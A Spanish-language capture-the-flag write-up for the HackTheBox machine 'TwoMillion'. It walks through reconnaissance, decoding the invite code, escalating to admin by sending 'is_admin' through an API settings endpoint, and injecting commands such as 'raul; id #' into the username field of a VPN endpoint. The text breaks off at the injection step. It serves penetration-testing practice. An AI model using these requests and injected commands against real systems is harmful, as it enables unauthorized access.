- - -

## Introducción 

En esta máquina de **HackTheBox**, **TwoMillion**, nos enfrentamos a un escenario centrado casi por completo en el abuso de una **API** REST: tras descifrar un código de invitación cifrado con **ROT13** para poder registrarnos en la plataforma, enumeraremos los *endpoints* de la API hasta encontrar uno vulnerable que nos permite escalar nuestro propio usuario a administrador. Desde ahí, una **RCE** por *command injection* en el endpoint de generación de perfiles VPN nos dará acceso inicial a la máquina.

Para la escalada de privilegios, un correo electrónico encontrado en el buzón del sistema nos pondrá sobre la pista de una vulnerabilidad de kernel conocida, **CVE-2023-0386 (OverlayFS)**, que explotaremos para obtener una shell como root.

Por combinar abuso de API, inyección de comandos y explotación de kernel, esta máquina es un buen ejercicio para practicar metodología de APIs de cara a las certificaciones eWPT y OSWE, además de familiarizarse con el proceso de compilar y lanzar un exploit de kernel real.

## Fase de Reconocimiento

- - -

En este caso, al estar realizando una máquina de **HackTheBox**, ya se nos facilita la IP de la máquina víctima.

{: width="300" }

Lo primero que haremos será comprobar la conectividad con la máquina víctima.

```bash
ping -c 1 10.129.133.245 
```

{: width="500" }

Tenemos conectividad con la máquina y podemos deducir por su *TTL* que estamos ante una máquina Linux, ya que generalmente `Linux (TTL → 64) | Windows (TTL → 128)` son los valores comunes si no han sido modificados.

### Escaneo de puertos 

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.133.245 -oN allPorts  
```

```bash
nmap -p22,80 -sCV 10.129.133.245 -oN targeted
```

{: width="800" }

Tras el escaneo vemos que la máquina víctima cuenta con los puertos 22 y 80 abiertos, correspondientes a los servicios *SSH* y *HTTP* respectivamente. Cabe destacar que el servicio *SSH* no es vulnerable a enumeración de usuarios, ya que la versión es superior a la 7.7. Visto esto, podemos proceder a enumerar los servicios.

## Enumeración 

- - -

### Enumeración de servicio HTTP

```bash
whatweb http://10.129.133.245
```



Al lanzar esta herramienta para tratar de identificar tecnologías que se utilizan en la web, nos devuelve un código de estado 301 (redirección) y nos dice que no se pudo acceder al dominio *2million.htb*. En este punto creo que está claro lo que debemos hacer: tenemos que añadir el dominio a nuestro archivo */etc/hosts* para que nos lo resuelva y el servidor pueda aplicar la redirección.

{: width="400" }

Una vez hecho, podemos lanzar la herramienta `whatweb` de nuevo y acceder a la web a través del navegador.

```bash
whatweb http://2million.htb
```



Nos reporta un correo electrónico de soporte, que por detrás se está utilizando un servidor `nginx` y poco más. Vamos a acceder a través del navegador para echar un vistazo a la web.

{: width="1000" }

Lo único que nos llama la atención a simple vista es la pestaña de “login”, que efectivamente nos lleva a un panel de login en el que podemos tratar de verificar si es vulnerable a algún tipo de inyección más adelante.

{: width="300" }

En este punto parece que, a simple vista, no vamos a sacar mucho más de la página web; vamos a aplicar *fuzzing* para descubrir rutas y directorios.

```bash
feroxbuster -u http://2million.htb -w /usr/share/SecLists-master/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 40
```

{: width="1000" }

Tras aplicar *fuzzing*, descubrimos rutas bastante interesantes, como *endpoints* de **APIs**, un */invite* y un panel de registro en */register*, a mayores del panel de login ya accesible fácilmente desde la web. Vamos a echarles un vistazo desde la web, aunque por el código de estado que reporta la herramienta `feroxbuster` podemos hacernos una idea de cuáles son accesibles y cuáles no.

- */register* 

{: width="300" }

En esta ruta podemos registrarnos en el aplicativo, vamos a probar.

{: width="300" }

Nos indica expresamente que necesitamos un código de invitación primero, por lo que de momento no podremos hacer mucho.

- */invite* 

{: width="300" }

Parece que, si obtenemos un código de invitación, podríamos acceder al aplicativo web.

> **Cabe destacar que, en los comienzos de la plataforma HackTheBox, esto de encontrar el código de invitación para poder registrarse estaba hecho así.**
{: .prompt-info }

Lo que podemos hacer es ver, para el objeto actual, las propiedades y métodos definidos; para ello entramos en las *devTools* del navegador y en la consola ejecutamos `this`.

{: width="500" }

Vemos la función `makeInviteCode`, que podemos tratar de llamar para que nos genere un código de invitación.



### Descifrado de **ROT13**

Ejecutando la función desde la consola de las *devTools*, se nos indica que la data está encriptada con **ROT13**; esta práctica consiste en rotar cada letra 13 posiciones hacia adelante en el abecedario. Podríamos desencriptarlo desde consola o utilizando [CyberChef](https://cyberchef.org/); en mi caso utilizaré `CyberChef`.



> **ROT13** desde consola.
>
> Para hacerlo desde consola podríamos utilizar el comando `tr`, de forma que le indicamos que se aplique una rotación de trece posiciones hacia delante en el abecedario:
>
> ```bash
> echo 'Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr' | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'
> ```
>
> 
>
> De esta forma descifraríamos desde consola cualquier cadena cifrada con **ROT13**.
{: .prompt-info }

Vemos que nos indica que, para generar un código de invitación, debemos tramitar con `curl` una petición al *endpoint* de la **API** */api/v1/invite/generate*. Si lo hacemos:

```bash
curl -s -X POST "http://2million.htb/api/v1/invite/generate" | jq
```

{: width="600" }

De esta forma obtenemos el código de invitación, que parece estar codificado en *base64*. Si tratamos de decodificarlo:

```bash
echo -n 'WDlUODItVlJaTFItMjMzS1otMTJQSEo=' | base64 -d;echo
```

{: width="600" }

Efectivamente, así obtenemos el código de invitación y podemos pasárselo a la web. Al pasárselo, se nos redirige a la página de registro directamente.

{: width="300" }

Ya con el código puesto, solo queda registrarse. Una vez registrados, iniciamos sesión:



Y estamos dentro de la plataforma, vamos a echarle un vistazo. Lo más destacable de la web es la pestaña de “Access”, donde se nos permite descargar un perfil de VPN.



Si hacemos *hovering* en el botón “Connection Pack”, vemos que se tramita una petición al *endpoint* */api/v1/user/vpn/generate*.

## Explotación 

- - -

### Abuso de APIs

#### Enumeración de endpoints de una **API**

Podríamos tratar de listar los *endpoints* de una API de la siguiente manera:

```bash
curl -s -X GET "http://2million.htb/api/v1" -v
```

{: width="400" }

Nos indica que no tenemos acceso; para poder tramitar la petición y que el servidor nos responda, necesitamos arrastrar la cookie de sesión. Para ello, desde la pestaña donde tenemos iniciada la sesión en el aplicativo web, abrimos las *devTools* (ctrl + shift + c), vamos a “Storage” y copiamos el valor de la cookie para pasarla como cabecera en la petición con `curl`.

{: width="700" }

```bash
curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=e8glt0q87ag0memm83keapdu8q" | jq
```

{: width="700" }

De esta forma logramos enumerar los distintos *endpoints* de la **API** junto a una pequeña descripción de cada uno. Vemos uno para verificar si nuestro usuario es administrador, otro para generar y descargar perfiles *VPN* (que fue lo que comentábamos antes) y otro, por el método *PUT*, que nos permite modificar las configuraciones de un usuario…

Vamos a ver qué nos responde el servidor si tramitamos peticiones a ese *endpoint*.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=e8glt0q87ag0memm83keapdu8q" | jq
```



Hay que indicarle el content-type en formato *json*, común en las APIs.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=e8glt0q87ag0memm83keapdu8q" -H "Content-Type: application/json" | jq
```



Nos indica que falta un parámetro “email”, vamos a pasarle el de nuestro usuario que utilizamos para registrarnos.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=e8glt0q87ag0memm83keapdu8q" -H "Content-Type: application/json" -d '{"email": "raul@raul.com"}' | jq
```



Ahora nos indica que falta el parámetro “is_admin”; esto es bastante crítico, porque, si de esta forma podemos abusar de la API para concedernos permisos de administrador en la web… Vamos a probar:

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=e8glt0q87ag0memm83keapdu8q" -H "Content-Type: application/json" -d '{"email": "raul@raul.com", "is_admin": "True"}' | jq
```



```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=e8glt0q87ag0memm83keapdu8q" -H "Content-Type: application/json" -d '{"email": "raul@raul.com", "is_admin": 1}' | jq
```



Finalmente, parece que conseguimos abusar de la **API** para establecernos el rol de administrador en la web. Si recordamos, había un *endpoint* que nos permitía verificar si éramos o no administradores; si tramitamos una petición a ver qué nos responde:

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=e8glt0q87ag0memm83keapdu8q" -H "Content-Type: application/json" | jq
```



Efectivamente, estamos como administradores del aplicativo web.

### RCE (command injection)

*¿Qué sería lo siguiente?* En este punto vamos a tratar de generar desde consola un perfil de *VPN* para un usuario dado, lanzando una petición al *endpoint* correspondiente, en este caso */api/v1/admin/vpn/generate*, por el método *POST*.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=e8glt0q87ag0memm83keapdu8q" -H "Content-Type: application/json" | jq
```



Vamos a pasarle un usuario.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=e8glt0q87ag0memm83keapdu8q" -H "Content-Type: application/json" -d '{"username": "raul"}'
```



Bien, podemos generar perfiles VPN para usuarios dados por nosotros, es decir, controlamos el input que se utiliza para generar los perfiles VPN. Además, estos perfiles lo más seguro es que se estén generando con un comando a nivel de sistema en el servidor, por lo que esto puede llegar a ser peligroso si se confía en el input del usuario, porque no sabemos las intenciones que tiene cada individuo. Por ejemplo, nosotros podríamos tratar de ver si somos capaces de inyectar un comando en este campo username:

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=e8glt0q87ag0memm83keapdu8q" -H "Content-Type: application/json" -d '{"username": "raul; id"}'
```



No responde nada porque seguramente, después del comando que acabamos de inyectar, le sigan parámetros o más comandos. De la misma manera que hacemos en las **SQLI**, podemos comentar el resto del comando y ver qué ocurre.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=e8glt0q87ag0memm83keapdu8q" -H "Content-Type: application/json" -d '{"username": "raul; id #"}'
```

